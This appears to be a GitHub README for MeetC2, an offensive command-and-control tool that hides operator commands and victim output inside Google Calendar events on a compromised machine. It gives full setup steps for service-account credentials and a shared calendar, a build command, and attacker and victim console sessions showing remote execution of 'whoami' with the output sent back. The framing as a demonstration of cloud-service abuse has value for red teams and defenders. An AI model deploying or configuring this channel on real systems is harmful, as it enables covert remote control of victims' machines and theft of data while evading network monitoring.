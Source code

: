 ## MeetC2

A serverless command & control (C2) framework that leverages Google Calendar APIs, as a covert communication channel between operators and a compromised system.

### Overview

MeetC2 a cross-platfrom (macOS/Linux), that demonstrates how legitimate cloud services can be abused for adversarial operations. By using Google Calendar APIs, the framework creates a hidden communication channel that blends in with normal business traffic.

Domain's utlized here are "`oauth2.googleapis.com`" & "`www.googleapis.com`". Once authenticated, the agent enters a polling loop, sending GET requests every 30 seconds to "`www.googleapis.com/calendar/v3/calendars/{calendarId}/events`" to check for new calendar events containing commands. 

When the organizer wants to issue a new command they can `POST` a new event to the same Calendar API endpoint via "organizer" agent with the command embedded in the event's summary field, like "Meeting from nobody:". The "guest" agent identifies these command events during its regular polling which extracts and executes the command locally, then updates the same event via a `PUT` request to include the command output within the `[OUTPUT] [/OUTPUT]` parameter in the description field.

<p align="center">
  <img src="https://github.com/user-attachments/assets/8a1929c6-3090-45cd-8f82-c33673c0fb91" alt="image" width="500"/>
</p>

### Google Calendar Setup

- Navigate to the URL [Google cloud console](https://console.cloud.google.com/?hl=en), sign in with your Google account. Select a project or create a new project.
- Navigate to "APIs & Services" → Click "Library", in the search box, look for `Google Calendar API` and click "ENABLED", will take 20-30 seconds to get it enabled in your project.
- Post this navigate to "APIs & Services" → "Credentials" and click "+ CREATE CREDENTIALS" at the top choose "Service account" fill in the required details i.e., Service account name: `calendar-invite`, Description: `Syncs calendar events` and continue. Skip the optional role/users and click "DONE".
- Now check your service account lists you should have a email like "`calendar-invite@your-project.iam.gserviceaccount.com`". Go to the "KEYS" section "ADD KEY" → "Create new key", choose the "JSON" format and download the "KEY". Rename the downloaded JSON file to `credentials.json` for later use.
- Navigate to the URL "`https://calendar.google.com`", on the left side find "Other calendars" → Click the "+" click on create new calender fill in the name/description. Post that, click on the 3 dots next to it → "Settings and sharing". Scroll down to "Integrate calendar", check for "Calendar ID" it should look like "`abc123xyz@group.calendar.google.com`".
- Final steps, under calendar settings, find "Share with specific people" click on "+ Add people", add the service account email from step 4 above (the one ending in `@your-project.iam.gserviceaccount.com`). Change the permission to "Make changes to events" and click "Send", and you are all set...

### Command Line

<b>Compile:</b>

```
./build-all.sh <credentials.json> <calendar_id>
```

<b>Attacker host:</b>
```
bash-3.2$ ./organizer credentials.json [REDACTED]@group.calendar.google.com
MeetC2 Organizer
Commands:
  exec <cmd>         - Execute on all hosts
  exec @host:<cmd>   - Execute on specific host
  exec @*:<cmd>      - Execute on all hosts (explicit)
  list               - List recent commands
  get <event_id>     - Get command output
  clear              - Clear executed events
  exit               - Exit organizer
----------------------------------------
> exec whoami
Command created for all hosts: qfj4tt8a4uoi8p7cd3b8t31337
> 
>
```

<b>Victim host:</b>

```
bash-3.2$ ./guest-darwin-arm64 
16:08:04 MeetC2 Guest started on dhiraj-mishra-[REDACTED]
16:08:04 Calendar ID: [REDACTED]@group.calendar.google.com
16:08:04 Polling every 10 seconds...
16:08:15 Executing command: whoami
16:08:16 Successfully updated event with output
```

<b>OpSec</b>: While this is functional, I know there are improvements in OpSec specifically for the "guest" binary.

<b>Acknowledgements</b>: This project was inspired by [GC2-sheet](https://github.com/looCiprian/GC2-sheet) author [looCiprian](https://github.com/looCiprian). Hence, special thanks to him!
